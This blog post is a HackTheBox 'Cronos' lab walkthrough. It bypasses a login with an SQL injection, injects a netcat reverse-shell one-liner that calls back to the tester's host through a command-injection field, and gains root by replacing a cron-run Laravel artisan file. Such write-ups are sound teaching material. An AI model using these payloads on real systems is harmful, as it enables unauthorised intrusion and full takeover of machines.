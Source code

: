 ```yaml
---
layout: post
title:  "HackTheBox -  Cronos"
date:   2020-1-2 00:10:00 +0000
categories: htb
permalink: /:categories/cronos/
---
```


# Nmap scan
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
# pwning user
The presence of port 53 being open hinted to me that virtual host routing may be involved. Edit /etc/hosts file to add `cronos.htb` for a site to resolve.
Resolving the host also returns 'admin.cronos.htb' so add that too.

The admin subdomain automatically stood out so i went to the page and found a login form. Basic sql injection ('OR 1=1# and any password) bypasses the login and allows us entry into the page. 
"Net Tool v0.1" allows us to input code to execute but we can inject our own by adding a semicolon after the expected address. Inject a basic bash reverse shell and run a listener to recieve a shell.
```
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1234 >/tmp/f 
```
We can now grab user.txt

# Gaining root
As the box name suggests this proceedure may involve a cronjob. Doing a check for jobs returns the following;
```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

From this it appears that root is executing the file 'artisan' on a regular cron. If we replace the file in this location with one under the same name it should execute as root. Placing a shell here executes when the cron triggers and gives us a shell as root.
```console
listening on [any] 9150 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.13] 44730
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 10:57:01 up 3 days,  1:20,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
```
Can now grab the root flag and cleanup.

